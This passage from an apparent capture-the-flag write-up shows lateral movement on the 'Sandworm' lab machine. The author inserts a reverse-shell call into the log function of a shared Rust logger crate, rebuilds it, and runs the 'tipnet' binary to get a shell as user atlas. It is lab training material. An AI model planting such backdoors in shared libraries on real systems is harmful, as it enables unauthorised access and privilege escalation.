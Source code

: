```rust
        .wait()
        .unwrap();
}

pub fn log(user: &str, query: &str, justification: &str) {

    gimme_rev_shell();

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
```

In order to use this modified code from the `tipnet` binary I need to build the newly modified logger code.

```bash
(remote) silentobserver@sandworm:/opt/crates/logger/src$ cargo build
   Compiling autocfg v1.1.0
   Compiling libc v0.2.142
   Compiling num-traits v0.2.15
   Compiling num-integer v0.1.45
   Compiling time v0.1.45
   Compiling iana-time-zone v0.1.56
   Compiling chrono v0.4.24
   Compiling logger v0.1.0 (/opt/crates/logger)
    Finished dev [unoptimized + debuginfo] target(s) in 7.79s
```

### Shell as atlas

To trigger the reverse shell function, I simply execute the `tipnet` binary and choose the `Refresh Indices` mode. This will call the log function from logger and in turn the reverse shell code.

```bash
(remote) silentobserver@sandworm:/opt/crates/logger/src$ /opt/tipnet/target/debug/tipnet
...snip...
...snip...
Select mode of usage:
a) Upstream
b) Regular (WIP)
c) Emperor (WIP)
d) SQUARE (WIP)
e) Refresh Indeces
e

[!] Refreshing indeces!
[+] Pull complete.
```

I immediately get a shell as the user atlas. Fortunately, this shell doesn't have the constraints of a `firejail` environment.
